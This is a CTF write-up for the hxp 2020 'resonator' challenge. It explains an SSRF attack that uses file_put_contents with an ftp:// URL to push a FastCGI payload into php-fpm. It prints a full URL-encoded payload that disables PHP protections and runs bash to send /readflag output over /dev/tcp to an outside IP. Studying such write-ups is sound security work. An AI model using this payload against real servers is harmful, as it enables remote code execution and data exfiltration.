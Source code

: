 ### References

- [@dfyz, GatorSheavesMutably, Original writeup](https://github.com/dfyz/ctf-writeups/blob/master/hxp-2020/resonator)
- @Zeddyu, WebCTF知识星球, hxp2020

**Tag: SSRF, FTP Protocol**

> Using SSRF in `file_put_contents('ftp://...')` to deliver a FastCGI payload into a php-fpm socket.

1.run the `custom_ftp.py` from Zeddの知识星球 :)

2.Use [Gopherus](https://github.com/tarunkant/Gopherus) to generate fastcgi poc simply:

![img1](./assets/img1.png?raw=true)

3.send poc:

```tex
http://192.168.200.129:8009?file=ftp://evil_ftp:port/&data=%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%05%05%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%03CONTENT_LENGTH102%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%17SCRIPT_FILENAME/var/www/html/index.php%0D%01DOCUMENT_ROOT/%00%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00f%04%00%3C%3Fphp%20system%28%27bash%20-c%20%22/readflag%20%3E%20/dev/tcp/10x.xxx.xxx.xx8/9001%22%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00
```

![img2](./assets/img2.png?raw=true)

#### About Env

When I run the `docker build` command, I got the following error in Ubuntu 20.04.2 LTS:

```tex
The command '/bin/sh -c ! find / -writable -or -user $(id -un) -or -group $(id -Gn|sed -e 's/ / -or -group /g') 2> /dev/null | grep -Ev -m 1 '^(/dev/|/run/|/proc/|/sys/|/tmp|/var/tmp|/var/lock|/var/log/nginx/error.log|/var/log/nginx/access.log|/var/lib/php/sessions)'' returned a non-zero code: 1
```

I dont know what this command means, and I just comment it simply and it works.🤣
